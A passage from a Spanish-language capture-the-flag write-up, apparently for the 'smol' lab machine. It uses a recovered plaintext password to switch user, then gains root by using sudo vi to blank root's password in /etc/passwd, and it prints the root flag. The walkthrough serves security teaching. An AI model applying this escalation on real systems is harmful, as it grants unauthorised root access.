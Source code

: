 Por lo que vemos las credenciales seran:

```
User: xavi
Pass: P@ssw0rdxavi@
```

Por lo que las probaremos:

```shell
su xavi
```

Metemos como contraseña `P@ssw0rdxavi@` y veremos que seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) /usr/bin/vi /etc/passwd
```

Veremos que podemos editar el archivo `passwd` con el editor de texto llamado `vi` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo vi /etc/passwd

#Dentro del vi
root::0:0:root:/root:/usr/bin/bash #Quitaremos la "x" para quitarle la contraseña a root
```

Guardamos el archivo y ahora realizaremos lo siguiente:

```shell
su root
```

Info:

```
root@smol:/home/xavi$ whoami
root
```

Y con esto ya seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
bf89ea3ea01992353aef1f576214d4e4
```

